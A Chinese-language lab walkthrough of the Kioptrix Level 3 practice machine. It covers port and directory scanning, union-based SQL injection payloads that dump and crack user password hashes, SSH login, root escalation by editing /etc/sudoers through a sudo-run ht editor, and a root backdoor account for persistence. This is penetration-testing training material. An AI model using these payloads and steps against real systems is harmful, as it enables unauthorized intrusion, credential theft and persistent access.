+++
date = '2026-07-25T01:09:10+08:00'
draft = false
title = 'kioptrix level 3'
+++

### 靶机，攻击机配置

kali：NAT网卡模式，网卡2设置成host-only模式，

level3靶机：hos-only模式

## 信息收集

查看kali网卡二的ip网段：192.168.65.128/24

nmap 扫描网段存活主机

靶机ip：192.168.65.131

现在做一个默认脚本扫描，端口服务探测

```
└─$ nmap 192.168.65.131 -sC -sV -p-
Starting Nmap 7.98 ( https://nmap.org ) at 2026-07-23 17:09 +0800
Nmap scan report for 192.168.65.131
Host is up (0.0022s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 4.7p1 Debian 8ubuntu1.2 (protocol 2.0)
| ssh-hostkey: 
|   1024 30:e3:f6:dc:2e:22:5d:17:ac:46:02:39:ad:71:cb:49 (DSA)
|_  2048 9a:82:e6:96:e4:7e:d6:a6:d7:45:44:cb:19:aa:ec:dd (RSA)
80/tcp open  http    Apache httpd 2.2.8 ((Ubuntu) PHP/5.2.4-2ubuntu5.6 with Suhosin-Patch)
|_http-title: Ligoat Security - Got Goat? Security ...
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.2.8 (Ubuntu) PHP/5.2.4-2ubuntu5.6 with Suhosin-Patch
MAC Address: 00:0C:29:AA:37:66 (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.17 seconds
```

访问web服务，看到80端口有一个登录界面



在登录界面也没找到什么思路进去，现在尝试对网站进行目录扫描

```
└─$ dirsearch -u http://192.168.65.131 
/usr/lib/python3/dist-packages/dirsearch/dirsearch.py:23: DeprecationWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html
  from pkg_resources import DistributionNotFound, VersionConflict

  _|. _ _  _  _  _ _|_    v0.4.3                                                                                                                           
 (_||| _) (/_(_|| (_| )                                                                                                                                    
                                                                                                                                                           
Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460

Output File: /home/usually/reports/http_192.168.65.131/_26-07-23_17-49-40.txt

Target: http://192.168.65.131/

[17:49:40] Starting:                                                                                                                                       
[17:49:41] 403 -  332B  - /.ht_wsr.txt                                      
[17:49:41] 403 -  335B  - /.htaccess.bak1                                   
[17:49:41] 403 -  335B  - /.htaccess.orig                                   
[17:49:41] 403 -  337B  - /.htaccess.sample
[17:49:41] 403 -  335B  - /.htaccess.save
[17:49:41] 403 -  335B  - /.htaccess_orig                                   
[17:49:41] 403 -  336B  - /.htaccess_extra
[17:49:41] 403 -  333B  - /.htaccessBAK
[17:49:41] 403 -  333B  - /.htaccess_sc
[17:49:41] 403 -  333B  - /.htaccessOLD                                     
[17:49:41] 403 -  326B  - /.html                                            
[17:49:41] 403 -  325B  - /.htm
[17:49:41] 403 -  335B  - /.htpasswd_test                                   
[17:49:41] 403 -  331B  - /.htpasswds
[17:49:41] 403 -  332B  - /.httr-oauth                                      
[17:49:42] 403 -  334B  - /.htaccessOLD2                                    
[17:49:47] 301 -  355B  - /cache  ->  http://192.168.65.131/cache/          
[17:49:49] 301 -  354B  - /core  ->  http://192.168.65.131/core/            
[17:49:49] 200 -  688B  - /core/fragments/moduleInfo.phtml                  
[17:49:49] 403 -  325B  - /data                                             
[17:49:49] 403 -  326B  - /data/                                            
[17:49:49] 403 -  337B  - /data/adminer.php
[17:49:49] 403 -  337B  - /data/autosuggest
[17:49:49] 403 -  332B  - /data/debug/
[17:49:49] 403 -  334B  - /data/backups/
[17:49:49] 403 -  332B  - /data/cache/
[17:49:49] 403 -  350B  - /data/DoctrineORMModule/Proxy/
[17:49:49] 403 -  350B  - /data/DoctrineORMModule/cache/
[17:49:49] 403 -  331B  - /data/logs/
[17:49:49] 403 -  330B  - /data/tmp/
[17:49:49] 403 -  332B  - /data/files/
[17:49:49] 403 -  335B  - /data/sessions/                                   
[17:49:50] 200 -   23KB - /favicon.ico                                      
[17:49:51] 301 -  357B  - /gallery  ->  http://192.168.65.131/gallery/      
[17:49:54] 301 -  357B  - /modules  ->  http://192.168.65.131/modules/      
[17:49:54] 200 -    2KB - /modules/                                         
[17:49:56] 301 -  360B  - /phpmyadmin  ->  http://192.168.65.131/phpmyadmin/
[17:49:56] 401 -  520B  - /phpmyadmin/scripts/setup.php                     
[17:49:56] 200 -    8KB - /phpmyadmin/                                      
[17:49:56] 200 -    8KB - /phpmyadmin/index.php                             
[17:49:59] 301 -  355B  - /style  ->  http://192.168.65.131/style/          
[17:50:01] 200 -   18B  - /update.php                                       
                                                                             
Task Completed       
```

发现了一个modules目录

这个web服务的功能大概是一个blog，发现这上面有备份文件，在一些目录里面还暴露了这个系统路径



感觉没啥子大用这个，还是会去看web页面



有一个评论提交

现在还有一个神奇的发现，blog首页有一个链接跳转

http://192.168.65.131/gallery/这个网页加载不出来图片资源，然后点击就会先显示跳转到http://kioptrix3.com/gallery/这个网址，但是转一下就会跳转



目前没搞懂这个是什么意思

经过claude分析，这是：kioptrix3.com 这个域名已经被别人抢注了，指向了一个广告/恶意跳转网站。网页里的图片和链接都是用的绝对域名 kioptrix3.com，所以当你用IP 192.168.65.131/gallery/ 访问时，图片加载不了，点击任何链接都会跳到那个被污染的域名上去。

解决方案:在kali上添加host映射，访问时使用kioptrix3.com访问

更改好之后进来就能正常看到图片，把photo排序更改到id排序之后看到这个url上出现了参数id，感觉可以尝试一下sql注入



在构造一些payload的时候确实看到了下面的sql报错，证实了猜想



## sql注入发现

通过一些构造payload尝试出来这个应该是数字型注入，构造payload`id=1 order by 6 --+`回显列为6



现在构造payload `id=x union select 1,2,3,4,5,6 --+ `查看回显位



就可以sql注入就爆破数据库了，当前数据库名gallery,

查表名：`id=999 union select 1,group_concat(table_name),3,4,5,6  from information_schema.tables  where table_schema='gallery'--+`

```
dev_accounts,gallarific_comments,gallarific_galleries,gallarific_photos,gallarific_settings,gallarific_stats,gallarific_users
```

然后继续查dev_accounts这个表，这个应该是设备用户信息储存的地方

查字段/列名

`id=999 union select 1,group_concat(column_name),3,4,5,6 from information_schema.columns where table_name='dev_accounts'--+`

id,username,password

### 爆数据

`id=999 union select 1,group_contact(username,':',password),3,4,5,6 from dev_accounts`

dreg:0d3eccfb887aabd50f243b3f155c0f85,loneferret:5badcaf789d3d1d09794d8f021f40f0e

这个哈希密码可以去cmd5.com查一下分别是：Mast3r   starwars

## ssh登录shell

可以去尝试一下ssh登录连接，但是发现直接ssh user@ip的方式登录不上去，好像是目标的ssh版本太低了，

```
ssh -F /dev/null -o HostKeyAlgorithms=+ssh-rsa -o PubkeyAuthentication=no dreg@192.168.65.131
这个方式就可以登录上去了
```

登录上去的用户是dreg，查询uid是1001，也不再sudo权限组，得想办法提权

## 提权

第一个用户

-suid提权



这个是-rbash这个shell被限制了重定向



现在查询到的这个，感觉没啥用

查询一下默认用户登录是bash的，还有查看cat /etc/sudoers权限不够



现在尝试登录另一个用户看看

```
ssh loneferret@192.168.17.199  -oHostKeyAlgorithms=+ssh-rsa
starwars
```



登录进去看到在sudo权限组 ，看到用户可以直接su切换用户，

第二个文件就是我们最开始查询suid文件查找过的了，这个应该是通过这个ht编辑器编写文件的方式提权的

### ht编辑器编写文件提权




还是因为老版本原因，解决方案 添加环境变量export TERM=xterm，然后在执行sudo /usr/local/bin/ht

然后f3打开/etc/sudoers去编辑一下文档直接提权，在里面给他加一个/bin/bash



出来执行sudo /bin/bash

## 权限维持

这里我选择useradd的方式留下backdoor用户，为root权限



留后门的用户必须严格创建家目录，设置好密码格式才能登陆上靶机，我这里就懒得改了


